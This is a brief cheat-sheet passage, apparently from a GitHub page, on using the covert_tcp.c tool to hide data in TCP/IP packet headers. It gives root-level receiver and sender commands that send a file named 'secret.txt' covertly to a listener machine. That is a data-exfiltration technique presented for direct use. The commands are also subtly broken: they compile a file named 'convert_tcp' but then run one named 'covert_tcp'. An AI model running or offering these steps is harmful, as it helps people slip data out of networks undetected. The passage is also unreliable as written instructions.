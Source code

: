 
For hiding data manipulating TCP/IP packet headers

Download
Google > covert_tcp.c download

Commands Receiver Machine
sudo su
cc -o convert_tcp convert_tcp.c
./covert_tcp -source "Sender Machine IP Address" -source_port "9999" -server -file "file name (receive.txt)"

Commands Sender Machine
sudo su
cc -o convert_tcp convert_tcp.c
./covert_tcp -source "Local IP Address" -dest "Listener Machine IP" -source_port "9999" -dest_port "8888" -file "file name (secret.txt)"

